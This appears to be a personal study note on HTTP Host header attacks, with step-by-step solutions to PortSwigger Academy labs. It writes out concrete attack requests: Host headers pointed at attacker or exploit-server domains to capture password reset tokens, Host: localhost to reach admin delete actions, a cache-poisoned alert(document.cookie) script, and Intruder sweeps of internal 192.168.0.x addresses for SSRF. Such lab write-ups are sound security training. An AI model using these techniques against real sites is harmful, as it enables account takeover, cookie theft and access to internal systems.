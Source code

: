 # 👾 HTTP Host header attacks

## 🔹 What is the HTTP Host header?
- When you type a website like https://example.com into your browser, your browser sends a request to the server.   - But here’s the thing:
     - Many websites share the same IP address (like apartments in a single building).
     - The Host header in HTTP is basically the part of the request that says “Hey server, I want the website example.com, not the other sites living on the same IP.”
     - 👉 Example:
     ```bash 
     GET /index.html HTTP/1.1
     Host: example.com
    ```
    - This tells the server, “Please give me the homepage of example.com.”

## 🔹 What is the purpose of the HTTP Host header?
- Its main purpose is virtual hosting.
- Since multiple websites can run on one server (same IP), the Host header makes sure the server knows which website you actually want.
- Without it, the server would be confused about which site’s content to send you.
- 👉 Think of it like telling a receptionist in a big office building “I’m here to see the Marketing Department (Host: example.com)” instead of just walking in blindly.

## 🔹 How does the Host header solve this problem?
- Imagine one IP = one big apartment building.
- Each flat = one website.
- When you arrive, you must tell the guard which flat (website) you’re visiting.
- That’s exactly what the Host header does — it guides the server to the right “flat” (site) inside a shared “building” (IP).

## 🔹 What is an HTTP Host header attack?
- Here’s where things get interesting 😈.
- If the application trusts the Host header too much, an attacker can tamper with it to trick the website into doing dangerous things.
- 👉 Example attack:
    ```
    GET /reset-password HTTP/1.1
    Host: attacker.com
    ```
- If the site uses the Host header to build password reset links, the victim might receive a link like: http://attacker.com/reset?token=12345
- 😱 Now the victim thinks it’s safe, but the attacker gets the reset link on their domain!

## 🔹 How do Host header vulnerabilities arise?
- They happen when developers don’t validate the Host header properly and just trust it blindly.
- Some risky places:
    - Password reset links (in emails)
    - Absolute URLs in redirects
    - Caching mechanisms
    - Security filters / firewalls
- If the Host header is manipulated, it can:
    - Point users to malicious sites
    - Poison caches (cache poisoning)
    - Bypass security checks
##  🔹 Exploiting Host header vulnerabilities
- Attackers can use this in different ways:
  1. Password reset poisoning – Hijacking reset links sent to users.
  2. Web cache poisoning – Serving malicious content to many users by tricking the cache.
  3. SSRF (Server-Side Request Forgery) – Forcing the server to make requests to internal systems.
  4. Bypassing access controls – If the app checks “Host” to allow/deny requests, attackers can fake it.

### ✅ In Simple words:

Host header = the “address label” telling the server which website you want.
Purpose = makes shared hosting possible.
Problem solved = without it, servers wouldn’t know which site to show.
Attack = bad guys forge this label to trick the website.
Vulnerability cause = developers trusting user input (Host header) without checking.
Exploitation = password reset hijack, cache poisoning, SSRF, phishing-style tricks.



# 📜 LABS

## Lab: Basic password reset poisoning

- Basic Password Reset Poisoning – Short Solution:
- Forgot Password (your account) → get email → reset password.
- In Burp, find POST /forgot-password, send to Repeater.
- Change Host to random → see email with random host → works.
- In Repeater, set:
    ```bash
    Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
    username=carlos
    ```
    → Send.
- Exploit server → Access log → copy Carlos’s temp-forgot-password-token.
- Open your original reset URL → replace token with Carlos’s → set new password.
- Login as carlos → Lab Solved.


## Lab: Host header authentication bypass
- Send GET / to Repeater, change Host to anything → still 200 OK.
- Visit /robots.txt → find /admin. | use **dirb/feroxbuster** to find admin page
- Request /admin → access denied (local only).
- In Repeater, set Host: localhost → access admin panel.
- Change request to:
```
GET /admin/delete?username=carlos
Host: localhost
```
- → Send → Lab Solved.

## Lab: Web cache poisoning via ambiguous requests
- Send GET / to Repeater, add cache buster /?cb=123.
- Add second Host header → reflected in /resources/js/tracking.js.
- Create /resources/js/tracking.js on exploit server with:
    ```js
    alert(document.cookie)
    ```
- In Repeater, send:
    ```http
    GET / HTTP/1.1
    Host: LAB-ID.web-security-academy.net
    Host: EXPLOIT-SERVER-ID.exploit-server.net
    ```
- Repeat until cached with your payload.
- Open cached page in browser 
  → alert() fires → Lab Solved.

## Lab: Routing-based SSRF
- Send GET / to Repeater, replace Host with Collaborator payload → send → confirm DNS hit in Collaborator.
- Send GET / to Intruder, set:
    ```http
    Host: 192.168.0.§0§
    ```
- Payload: Numbers 0–255, uncheck Update Host header to match target → start attack.
- Find 302 redirect to /admin, send to Repeater, request /admin → get admin panel.
- Copy CSRF token + session cookie from /admin.
- Craft:
    ```http
    POST /admin/delete?csrf=<TOKEN>&username=carlos
    Cookie: <session-cookie>
    ```
- → send → Lab Solved.

## Lab: SSRF via flawed request parsing

- Send the successful GET / request to Burp Repeater.
- Observe: Modifying Host directly blocks the request.
- Change request line to absolute URL:
    ```
    - GET https://YOUR-LAB-ID.web-security-academy.net/
    ```
- Modifying Host now causes a timeout (validating URL, not Host).
- Insert Burp Collaborator payload into the Host header and send.
- Confirm server-side request via Collaborator.
- Send this absolute URL request to Burp Intruder, uncheck Update Host header to match target.
- Use Intruder to brute-force Host: 192.168.0.x over /24 range to find the admin interface.
- Once found, send to Repeater and access:
    ```
    - GET https://YOUR-LAB-ID.web-security-academy.net/admin- 
    ```
- Extract CSRF token and session cookie from /admin page.
- Modify request to:
    - GET https://YOUR-LAB-ID.web-security-academy.net/admin/delete?csrf=<TOKEN>&username=carlos
- Add session cookie to request, convert to POST, and send.
- Carlos deleted → Lab solved.
